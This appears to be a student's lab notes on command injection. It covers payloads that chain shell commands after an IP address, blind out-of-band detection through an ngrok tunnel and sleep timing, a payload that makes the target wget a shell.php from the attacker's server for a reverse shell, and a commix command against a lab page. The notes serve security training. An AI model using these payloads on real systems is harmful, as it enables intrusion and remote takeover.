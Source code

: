 # Basics
Command injection involves executing arbitrary commands on a host OS through a vulnerable application.

- On a website with a network check feature, I input an IP/domain and observed the `curl` request:

- Exploiting special operators like `| && || ;`, I executed commands after the IP/domain:
```bash
127.0.0.1 ; ls -l / #
```


# Blind / Out-of-Band
- no feedback = blind

- tested payload `127.0.0.1; ls #`
	- semicolon filtered
  


- We initiated Ngrok for localhost tunnel
```bash
$ ngrok http 80
```

-  inserted link on site
```
https://ngrok-link?`cmd`
```
- check on ngrok interface

- test with sleep
	- using `sleep` command, to check if blind command injection  is possible:
	```HTML
	https://tcm-sec.com?`sleep 15`
	https://tcm-sec.com?`sleep 40`
	```
	- works
# **Exploitation**
- Python server:
```bash
$ python3 -m http.server 80
```

- Using **Wappalyzer**, for reverse shell type

```HTML
# Using WGET
127.0.0.1?`wget 192.168.57.21:443/shell.php`
```
- go to /shell.php to trigger
- got revshell
#  Challenge

- website with a feature for redirecting vehicles
- **ALG**, the only vehicle parked. Here's what I saw:
- To explore Command Injection vulnerability, Burp Suite to intercept requests:
	- Identifying parameters (`plate`, `posx`, `posy`)
	- run commix to automate injection
```bash
commix -u http://localhost/labs/c0x03.php --data='posy=300' --level 3
```
